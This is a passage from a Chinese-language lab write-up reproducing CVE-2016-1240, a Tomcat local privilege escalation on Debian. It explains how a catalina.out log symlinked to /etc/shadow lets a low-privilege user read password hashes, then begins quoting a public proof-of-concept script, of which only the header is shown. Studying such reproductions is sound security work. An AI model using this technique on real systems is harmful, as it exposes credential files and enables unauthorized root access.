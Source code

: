     service tomcat7 restart

重启成功之后我们再次使用`低权限用户`读取cataline.out的内容：使用命令

    head /var/log/tomcat6/catalina.out

使用head命令可以输出文件前十行的内容，而`cat`命令则是预览文件的全部内容。

![](./resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId30.gif)

**原理:**当Tomcat服务重启时，系统默认重新加载`/var/log/tomcat6/catalina.out`脚本，由于此时tomcat的日志文件指向了`/etc/shadow文件`;
而该文件就是我们之前创建的链接文件，而链接文件属于Tomcat7这个`低权限用户`，因此，我们就可以查看其中内容了。

### 漏洞复现

本步将使用poc根据Tomcat7漏洞进行提权

#### poc

    #!/bin/bash
    #
    # Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
    #
    # CVE-2016-1240
    #
    # Discovered and coded by:
    #
    # Dawid Golunski
    # http://legalhackers.com
    #
    # This exploit targets Tomcat (versions 6, 7 and 8) packaging on 